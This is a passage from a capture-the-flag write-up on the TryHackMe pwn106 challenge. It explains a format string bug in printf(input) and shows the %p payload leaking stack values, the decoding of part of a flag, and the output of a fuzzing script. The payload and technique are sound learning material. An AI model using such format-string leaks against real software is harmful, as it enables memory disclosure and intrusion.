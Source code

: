 From this we can tell the vulnerability lays in the `printf(input)` 

This is a format string vulnerability cause it doesn't specify the format used to print the value stored in input

No buffer overflow cause it reads in 0x32 bytes which is stored in input buffer and the input buffer can hold up to 56 bytes

With this format string vulnerabilty we can leak address off the stack

So here's how it basically works 

There are various format specifier like `%p, %x, %s, %hn, %n` but i'll use `%p` which will leak address off the stack in form of hex

```
└─$ ./pwn106user.pwn106-user
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: %p.%p.%p.%p.%p.%p

Thanks 0x7fffb1374300.(nil).(nil).0x564c8184f380.0x7f60258a86a0.0x5b5858587b4d4854
```

We see that some address are leaked. And i can try decoding that from hex but i'll decode the ones that doesn't look like a libc address or stack address `i.e 0xff`

```
└─$ echo 0x564c8184f380 | xxd -r -p ; echo 0x5b5858587b4d4854 | xxd -r -p
VL���[XXX{MHT    
```

From the result it seems to be like the flag format `THM{` but in reversed form cause of little endianess 

So i can leak off many address off the stack and try decoding since likely i will get the flag but doing it manually is going to take time

Script avaiable here [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn106.py)

On running the exploit fuzz script leaks that the flag is stored on the stack but its redacted

```
─$ python3 exploit.py                          
[+] Starting local process './pwn106user.pwn106-user': pid 25789
0: b'%0$p\n'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25789)
[+] Starting local process './pwn106user.pwn106-user': pid 25791
1: b'0x7fff3216c3b0\n'
b'\xb0\xc3\x162\xff\x7f'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25791)
[+] Starting local process './pwn106user.pwn106-user': pid 25793
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25793)
[+] Starting local process './pwn106user.pwn106-user': pid 25795
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25795)
[+] Starting local process './pwn106user.pwn106-user': pid 25799
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25799)
4: b'0x55d0a1678380\n'
b'\x80\x83g\xa1\xd0U'
[+] Starting local process './pwn106user.pwn106-user': pid 25803
5: b'0x7fd8213226a0\n'
b'\xa0&2!\xd8\x7f'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25803)
[+] Starting local process './pwn106user.pwn106-user': pid 25805
```
